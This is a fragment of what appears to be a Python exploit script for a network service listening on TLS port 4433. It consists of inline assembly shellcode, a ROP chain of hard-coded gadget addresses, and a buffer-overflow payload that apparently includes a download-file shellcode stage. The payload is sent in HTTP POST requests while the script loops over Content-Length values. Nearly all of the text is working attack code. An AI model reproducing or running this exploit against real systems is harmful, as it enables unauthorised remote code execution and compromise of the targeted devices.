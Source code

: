 ```
      mov rbx,0
      push rbx
      mov rcx,rsp
      push rdx
      push rdi

      mov rsi,rsp
      sub rsp,0x100
      push rcx
      mov rdx,rsp
      add rax,0x70
      mov rsp,rax

      nop
      nop
      nop
      nop
      nop
      nop
      ret
'''.format(arg1,arg2,arg1,arg2,arg4))
    print(shellcode)
    print(hex(len(shellcode)))
    return shellcode
ROP=struct.pack('q',0x000000000060e7e9)
ROP+=struct.pack('Q',0xffffffffffeA5288)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x0000000002a0e0e0)
ROP+=struct.pack('q',0x000000000257008a)
ROP+=struct.pack('q',0x0000000000530c8e)
ROP+=struct.pack('q',0x200000)
ROP+=struct.pack('q',0x0000000000509372)
ROP+=struct.pack('q',0x7)
ROP+=struct.pack('q',0x000000000043F3D0)
ROP+=struct.pack('q',0x00000000005dc96d)
ROP+=shellcode1
#441A50

print(hex(len(ROP)))

payload=b'a'*0x560+ROP
payload=payload.ljust(0x620,b'a')+struct.pack('q', 0x0000000000febbaa)+gen_shellcode_download_file()+struct.pack('q',0x0442EC0)
for CL in content_length:
    try:
        data = b"POST " + path + b" HTTP/1.1\r\nHost: " + \
            ip.encode() + b"\r\nContent-Length: " + CL.encode() + \
            b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\n"+payload

        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        _socket.connect((ip, 4433))
        _default_context = ssl._create_unverified_context()
        _socket = _default_context.wrap_socket(_socket)
        _socket.sendall(data)
        res = _socket.recv(1024)
        print(res)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
```